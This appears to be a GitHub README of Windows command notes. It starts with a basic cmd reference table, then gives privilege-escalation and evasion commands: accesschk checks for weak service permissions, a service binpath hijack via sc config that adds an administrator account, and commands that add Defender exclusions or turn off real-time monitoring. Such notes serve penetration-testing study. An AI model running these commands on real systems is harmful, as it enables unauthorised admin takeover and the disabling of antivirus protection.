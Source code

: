 # windows

| Command                      | Description                                            |
| ---------------------------- | ------------------------------------------------------ |
| `cd path\to\folder`          | Change directory                                       |
| `cd ..`                      | Go to the parent folder                                |
| `cd`                         | Show current directory                                 |
| `dir`                        | List folder contents                                   |
| `mkdir NewFolder`            | Create a new folder                                    |
| `echo text > file.txt`       | Create a file                                          |
| `del file.txt`               | Delete a file                                          |
| `rmdir FolderName`           | Remove an empty folder                                 |
| `rmdir /s FolderName`        | Remove folder and its contents                         |
| `copy source.txt dest.txt`   | Copy a file                                            |
| `move source.txt dest.txt`   | Move a file                                            |
| `program.exe`                | Execute a program                                      |
| `findstr "text" file.txt`    | Search for specific text in a file (similar to `grep`) |
| `dir \| findstr ".txt"`      | List `.txt` files in the current folder                |
| `dir \| findstr "report"`    | List files with "report" in the name                   |
| `dir /S \| findstr "report"` | List files with "report" in the name in subfolders     |

Download Sysinternals Suite:

```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://download.sysinternals.com/files/SysinternalsSuite.zip' -OutFile '.\SysinternalsSuite.zip'"
```

Extract ZIP file:

```cmd
powershell -Command "Expand-Archive -Path '.\SysinternalsSuite.zip' -DestinationPath '.\SysinternalsSuite'"
```

Check user permissions:

```cmd
accesschk.exe -uwvc "normaluser" * 
```

Add user and assign to Administrators group:

```cmd
cmd /c cmd.exe /c "net user <username> <password> /add && net localgroup Administrators <username> /add"
```

Delete user and remove from Administrators group:

```cmd
cmd /c cmd.exe /c "net localgroup Administrators <username> /delete && net user <username> /delete"
```

Modify the configuration of a service:

```cmd
sc config <service> binpath="cmd /c cmd.exe /c net user <username> <password> /add && net localgroup Administrators <username> /add"
```

Exclude `C:\Temp` folder from Windows Defender:

```cmd
powershell -Command "Add-MpPreference -ExclusionPath 'C:\Temp'"
```

Retrieve list of exclusion paths configured in Windows Defender:

```cmd
powershell -Command "Get-MpPreference | Select-Object -ExpandProperty ExclusionPath"
```

Remove `C:\Temp` folder from Windows Defender exclusion list:

```cmd
powershell -Command "Remove-MpPreference -ExclusionPath 'C:\Temp'"
```

Disable Windows Defender:

```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true" 
```

Enable Windows Defender:

```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $false"
```
